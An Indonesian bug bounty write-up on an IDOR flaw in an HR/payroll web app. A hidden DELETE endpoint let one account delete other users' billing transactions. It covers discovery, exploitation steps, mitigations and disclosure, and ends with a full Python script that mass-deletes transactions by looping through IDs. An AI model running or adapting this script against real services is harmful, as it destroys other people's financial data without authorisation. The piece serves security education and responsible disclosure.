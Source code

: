 +++
date = '2025-09-15T14:10:41Z'
draft = false
title = 'How I Found a Critical Idor That Allowed Deleting All Billing Transactions'
+++
Halo semuanya! Kali ini saya ingin berbagi pengalaman menarik saat melakukan security testing pada beberapa aplikasi web yang berfokus pada free payroll, absenteeism dan employee management.

Bayangkan ini, saya sedang mengeksplorasi sebuah aplikasi web tersebut untuk sekedar pengujian keamanan dan tiba-tiba menemukan sesuatu yang cukup mengejutkan. Sebuah kerentanan Insecure Direct Object Reference (IDOR) yang memungkinkan saya menghapus transaksi billing pengguna lain, tanpa ada otorisasi sama sekali.

Yup, benar-benar semua transaksi.

## Apa itu IDOR? Singkatnya?
Insecure Direct Object Reference (IDOR) adalah celah kontrol akses di mana aplikasi memperbolehkan pengguna mengakses atau memodifikasi objek internal (seperti file, record database, transaksi) langsung, tanpa validasi yang cukup. Dalam kasus ini, jika kamu tahu ID transaksi seseorang, kamu bisa menghapusnya. Tanpa izin. Tanpa ada batasan.

## Menemukan "Pintu Rahasia" Endpoint Tersembunyi
Seperti biasa, saya login ke akun saya, buka **Pengaturan > Billing**. Saya melihat daftar riwayat transaksi, opsi membuat perpanjangan paket baru, tapi tidak ada tombol hapus.

*"Hmmm, mungkin fitur hapus memang sengaja disembunyikan dari user biasa"* pikir saya.

Tapi seorang bug hunter selalu penasaran. Jadi saya lanjut eksplorasi, **Pengaturan > Integrasi > Open API**. Di sana saya menemukan URL dokumentasi API. Awalnya, tidak ada yang menarik sama sekali. Tapi saya tidak menyerah.

![url dokumen api](/images/url_dokumen_api.png)

Setelah beberapa percobaan, akhrinya saya menemukan: ![**https://private.com/docs/hr**](none)

Dan di situlah saya melihat segudang endpoit. Salah satunya langsung bikin saya meneteskan keringat dingin (anjay):

**`DELETE /app/billingTransactions/{id}`**

![endpoint api](/images/dokumen_api.png)

Artinya? Endpoint tersembunyi untuk menghapus transaksi billing, yang tidak pernah muncul di UI.

## Saatnya Menguji: Apakah Endpoint Ini Berfungsi?

Menggunakan Burpsuite Repeater, saya membuat request DELETE sederhana. Response 200 OK. Berhasil. Tapi ini baru bukti endpoint ada, belum bukti IDOR.

Lanjut ke uji coba klasik: **menghapus transaksi milik pengguna lain wkwkw**.

## Cross The Line: Exploit IDOR

Jadi, saya menyiapkan dua akun:
1. Attacker: akun saya
2. Victim: akun percobaan pengguna lain

Sedikit info dari saya,

*Sebagai seorang bug hunter yang menjunjung etika dan mematuhi kebijakan program, penyerang hanya diperbolehkan menguji pada akun miliknya sendiri dan tidak boleh menerapkan uji coba ini pada target nyata. Ingat, ada konsekuensi hukum jika melanggar aturan, jadi selalu berhati-hati!*

### Langkahnya sangat sederhana:
1. Buat transaksi di akun victim, catat ID (misal: 4927)
2. Buat transaksi di akun attacker, catat ID (misal: 4928)
3. Ubah request DELETE milik attacker menjadi ID victim, kirim request

Hasilnya? 200 OK dan transaksi milik victim hilang tanpa jejak.

![request delete api](/images/delete_billing.png)

Boom. IDOR berhasil dieksploitasi, data bisa hilang secara diam-diam. Tanpa peringatan.

## Kenapa Ini Berbahaya?

* Pengguna tidak sadar: Mereka tidak tahu fitur hapus ada. Tidak ada laporan.
* Developer blind spot: Endpoint ada tapi UI tidak menampilkannya. Developer mungkin lupa mengamankan.
* Mass deletion: Dengan script sederhana, ribuan transaksi bisa dihapus hanya dengan mengubah ID.
* Kehilangan integritas data: Laporan keuagan, audit semua bisa kacau.

## Rekomendasi Mitigasi

* Validasi otorisasi ketat di semua endpoint, bukan hanya yang terlihat di UI saja
* Gunakan soft delete daripada menghapus data langsung
* Implementasi audit logging

Prinsipnya tetap sama, setiap endpoint yang memproses data baik yang terlihat di UI maupun tidak, harus memiliki validasi otorisasi yang ketat.

## Exploit Code

Saya tidak menjalankan kode ini karena melanggar etika dan aturan program. Kode ini hanya ditampilkan sebagai contoh untuk *mass deletion billing transactions* melalui IDOR, bukan untuk digunakan di sistem nyata.

```python

#!/usr/bin/env python3

import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor

# Ignore SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit_idor(session, billing_id):
    url = f"https://private.com/api/v1/app/billingTransactions/{billing_id}"
    headers = {
        "User-Agent": "Exploit IDOR",
        "Authorization": "Bearer <token>",
        "X-App": "hr"
    }
    try:
        response = session.delete(url, headers=headers, verify=False)
        if response.status_code == 200:
            print(f"Success delete billing transaction: {billing_id}")
        else:
            print(f"Billing {billing_id} not found or cannot delete")
    except Exception as e:
        print(f"Error: {e}")

def main():
    max_workers = 10
    try:
        with requests.Session() as session:
            with ThreadPoolExecutor(max_workers=max_workers) as executor:
                executor.map(lambda i: exploit_idor(session, i), range(999))
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

## Pelajaran Penting

Security thorough obscurity is not security. Menyembunyikan endpoint bukanlah pengaman. Anggap semua endpoint bisa ditemukan. Assume every endpoint is exposed. Semua endpoint, UI-visible atau tidak, harus aman.

---

Saya sudah melaporkan kerentanan ini dan perusahaan menanggapinya dengan cepat. Perbaikan telah diterapkan oleh team developernya, dan saya menerima **"bounty"** sebagai bentuk apresiasi, lumayan buat jajan hehe.

Momen seperti ini selalu bikin saya sadar. Dunia bug bounty selalu penuh kejutan, dan kadang bug paling kritis justru tersembunyi di *"hal-hal kecil yang tidak terlihat"*.

Terima kasih sudah membaca! Kalau ada pertanyaan, follow saya di X (Twitter) yaaa, see you.
